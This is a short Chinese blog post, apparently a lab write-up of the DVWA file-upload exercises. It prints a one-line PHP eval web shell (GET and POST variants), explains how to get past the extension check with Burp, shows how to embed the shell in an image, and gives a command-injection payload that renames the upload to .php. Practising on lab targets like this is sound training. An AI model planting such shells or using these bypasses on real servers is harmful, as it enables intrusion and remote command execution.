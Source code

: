 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: 2023-08-01 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```


# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用[Command Injection]

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

